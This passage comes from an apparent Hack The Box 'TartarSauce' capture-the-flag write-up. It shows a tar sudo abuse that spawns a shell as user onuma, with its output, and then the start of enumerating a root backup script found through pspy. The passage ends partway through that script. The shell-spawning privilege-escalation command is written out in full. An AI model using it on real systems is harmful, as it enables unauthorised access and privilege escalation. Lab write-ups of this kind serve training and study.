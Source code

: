 > [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tartarsauce/Untitled%2011.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tartarsauce/Untitled%2011.png)

tar have some special parameters than can help us to spawn a shell as user `onuma`

```bash
$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
$ whoami
whoami
onuma
```

## Privilege Escalation

First I uploaded Enum script and it doesn't reveals anything, So I tried uploading `pspy` and after sometime I get a hit with this running as user root.

```bash
2020/07/13 05:00:41 CMD: UID=0    PID=26257  | /bin/bash /usr/sbin/backuperer
```

So I checked the script and its a bash script doing some backup stuffs.

```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

```
